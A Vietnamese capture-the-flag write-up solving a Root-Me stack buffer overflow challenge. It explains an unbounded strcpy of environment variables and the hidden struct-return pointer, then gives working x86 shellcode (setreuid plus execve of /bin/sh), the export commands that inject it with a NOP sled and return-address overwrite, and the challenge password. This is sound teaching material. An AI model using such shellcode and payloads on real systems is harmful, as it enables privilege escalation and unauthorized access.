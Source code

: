 # ELF x86 - Stack buffer overflow basic 4

```c
int main(void)
{
  struct EnvInfo env;
   
  printf("[+] Getting env...\n");
  env = GetEnv();
   
  printf("HOME     = %s\n", env.home);
  printf("USERNAME = %s\n", env.username);
  printf("SHELL    = %s\n", env.shell);
  printf("PATH     = %s\n", env.path);
   
  return 0;  
}
```

Cấu trúc chương trình rất đơn giản, tạo ra biến `env = GetEnv()`

Đây là `struct EnvInfo`

```c
struct EnvInfo
{
  char home[128];
  char username[128];
  char shell[128];  
  char path[128];  
};
```

Chúng ta đến với hàm `GetEnv()`

```c
struct EnvInfo GetEnv(void)
{
  struct EnvInfo env;
  char *ptr;
   
  if((ptr = getenv("HOME")) == NULL)
    {
      printf("[-] Can't find HOME.\n");
      exit(0);
    }
  strcpy(env.home, ptr);
  if((ptr = getenv("USERNAME")) == NULL)
    {
      printf("[-] Can't find USERNAME.\n");
      exit(0);
    }
  strcpy(env.username, ptr);
  if((ptr = getenv("SHELL")) == NULL)
    {
      printf("[-] Can't find SHELL.\n");
      exit(0);
    }
  strcpy(env.shell, ptr);
  if((ptr = getenv("PATH")) == NULL)
    {
      printf("[-] Can't find PATH.\n");
      exit(0);
    }
  strcpy(env.path, ptr);
  return env;
}
```

Chương trình gọi hàm `strcpy` với 4 giá trị từ `environment` vào `struct EnvInfo`, điều này gây ra lỗi buffer overflow. Chương trình ko bật cơ chế bảo vệ nào vì vậy có rất nhiều cách tấn công buffer overflow. Chúng ta có thể dùng ret2libc hoặc shellcode là 2 kiểu cơ bản nhất. Tuy nhiên ở đây trước khi lấy shell ta cần gọi syscall `setreuid` nhằm thay đổi sid để đọc được file `.passwd`. Vì file `.passwd` chỉ cho phép đọc nếu user là `root` hoặc `app-systeme-ch8-cracked`. Vì thế ở đây mình chọn cách dùng shellcode.

![](images/4.png)

Như vậy kế hoạch sẽ là ghi shellcode vào 1 trong 4 biến môi trường ta copy vào trong biến env, rồi đè địa chỉ trả về lên đó để return về shellcode. Chương trình không bật aslr vì thế chúng ta có thể xem trực tiếp địa chỉ bằng gdb, tuy nhiên khi tấn công thì môi trường chạy ở gdb và môi trường chạy bên ngoài lại có sự khác biệt. Mình không rõ tại sao lại vậy, cơ bản là địa chỉ chúng ta tìm thấy bằng gdb không trùng với địa chỉ thật lúc chạy, cho dù đã mình đã dùng một số trick để xử lí.

Vì vậy chúng ta sẽ đổi cách tấn công một chút, lợi dụng cơ chế xử lí của chương trình khi trả về một struct. Hàm `GetEnv` trả về một `struct EnvInfo` chứ không phải một con trỏ đến `struct EnvInfo`, vì thế nó có chút sự khác biệt ở cơ chế trả về. Mình phát hiện điều này khi mình code assembly khi chương trình gọi hàm `GetEnv()`.

![](images/5.png)

Đây là code xử lí của chương trình khi gọi hàm GetEnv. Và bên trong hàm GetEnv trước khi return.

![](images/6.png)

Mình sẽ giải thích một chút cơ chế thế này, trước khi gọi hàm `GetEnv`, chương trình `push` địa chỉ `ebp – 0x418` làm tham số của hàm, mặc dù trên code hàm `GetEnv` không có tham số nào cả, và hàm `main` chỉ có 1 `struct EnvInfo` tuy nhiên chương trình lại tạo ra một khoảng bộ nhớ đủ cho 2 `struct EnvInfo`??? Lí do cho điều này là khi `struct EnvInfo` được tạo ra ở trong hàm `GetEnv()` và được trả về cho hàm `main`, chương trình dùng câu lệnh `rep movs DWORD PTR es:[edi], DWORD PTR ds:[esi]` để copy struct ta tạo ở hàm `GenEnv` vào địa chỉ đặt tại `ebp + 0x8`, tức là giá trị ta đưa vào trước khi gọi `main`, rồi tiếp tục copy từ đó vào địa chỉ thực của biến `env` trong hàm `main`. Chúng ta có thể viết mã giả như sau:

```c
main() {
	Tạo struct env thật;
	Tạo struct env ảo;
	Đưa địa chỉ struct env ảo vào tham số thứ nhất và gọi GetEnv();
	Copy struct env ảo vào struct struct env thật;
}
GetEnv() {
	Tạo struct env;
	Lấy địa chỉ struct env ảo của hàm main ở ebp + 0x8 và copy struct env vào struct env ảo ở hàm main;
}
```

Đại khái là khi hàm con trả về một struct, chương trình copy struct ra một vùng nhớ tạm khác rồi khi về lại hàm cha, tiến hành copy lại struct từ vùng nhớ tạm vào biến trên hàm main. Địa chỉ vùng nhớ tạm được copy được hàm cha đặt là tham số đầu tiên của hàm.

Như vậy ta sẽ đổi cách tấn công một chút, thay vì ta đè return address lên địa chỉ shellcode là biến `struct env` ở hàm `main`, ta có thể sửa `return address` và địa chỉ vùng nhớ tạm tại `ebp + 0x8` giống nhau. Như vậy chương trình sẽ copy struct ra một vùng nhớ trên stack và return về đó luôn, đảm bảo chính xác.

Mình viết một đoạn shellcode nhằm gọi `setreuid(1208, 1108)` để đổi user và gọi `execve(“/bin/sh”, 0, 0)` để lấy shell.

```assembly
section .text
	global _start:

_start:
	xor edx, edx
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	mov bx, 1208
	mov cx, 1108
	mov al, 0x46
	int 0x80	

	xor eax, eax
	xor ecx, ecx
	push eax
	push 0x68732f2f
	push 0x6e69622f
	push esp
	pop ebx
	mov al, 0xb
	int 0x80
```

Cuối cùng là đặt chúng vào 1 trong 4 biến môi trường và return. Trong 4 biến thì chỉ có `USERNAME` là chưa có giá trị sẵn, vì vậy mình sẽ đặt shellcode vào biến `USERNAME`, và đè return address về địa chỉ struct ENV ảo + 0x80 (vị trí của `env.username`). Biến `PATH` là biến cuối cùng để overflow vì thế chắc chắn sẽ phải thay đổi, mình sẽ không sửa toàn bộ mà chỉ thêm vào phía sau để đảm bảo chương trình không bị ảnh hưởng. Vị trí của biến PATH là `ebp - 0x21c + 0x180 = ebp – 0x9c`. Địa chỉ của struct ENV ảo có thể là bất kì vùng nhớ nào có quyền read, mình debug gdb và lấy luôn giá trị cũ cho chắc cú.

![](images/7.png)

Exploit:

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:/opt/tools/checksec/`python2 -c "print 'A' * 41 + '\x70\xf6\xff\xbf' + '\xf0\xf5\xff\xbf'"`
```

```bash
export USERNAME=`python2 -c "print '\x90' * 80 + '\x31\xd2\x31\xc0\x31\xdb\x31\xc9\x66\xbb\xb8\x04\x66\xb9\x54\x04\xb0\x46\xcd\x80\x31\xc0\x31\xc9\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\xb0\x0b\xcd\x80'"`
```

![](images/8.png)

password là: `s2$srAkdAq18q`


